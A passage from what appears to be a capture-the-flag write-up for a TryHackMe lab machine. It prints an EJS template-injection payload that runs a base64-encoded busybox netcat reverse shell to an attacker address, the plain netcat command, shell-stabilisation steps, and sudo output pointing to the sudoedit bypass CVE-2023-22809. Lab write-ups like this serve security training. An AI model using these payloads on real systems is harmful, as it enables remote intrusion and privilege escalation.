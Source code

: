 ```console

name=test&password=hacker&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC44LjEyOC4yMjEgNDQ0NCAtZSBiYXNo | base64 -d | bash"');//
```

>I encoded the BusyBox reverse shell command using Base64, like this:
{: .prompt-tip}

>`busybox nc 10.8.128.221 4444 -e bash | base64 You can also use the command without encoding, as shown below` 

```console
busybox nc 10.8.128.221 4444 -e bash
```

## User Flag
So guys, we successfully got a shell!
![shell](shell.png){: width="800" height="150" .shadow }

**For stable shell**
```console
python3 -c 'import pty;pty.spawn("/bin/bash")'    or   script -qc /bin/bash /dev/null
export TERM=xterm
ctrl +z
stty raw -echo;fg
press enter
```

>**Q: What is the user.txt flag?**

```console
cat /home/web/user.txt
```
## Root Flag
We found that we can run `sudoedit` as root without needing a password, but only for the specific file `/etc/nginx/sites-available/admin.cyprusbank.thm`

After a brief search, we discovered a bypass for `sudoedit CVE-2023-22809.`[link](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis) This affects sudo versions up to **1.9.12p1** and lets us read and modify any files by setting the `EDITOR` environment variable

```console
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
After a quick search, we came across a `sudoedit` bypass `CVE-2023-22809`. This vulnerability affects sudo versions up to `1.9.12p1` and allows us to read or modify arbitrary files by setting the `EDITOR` environment variable.
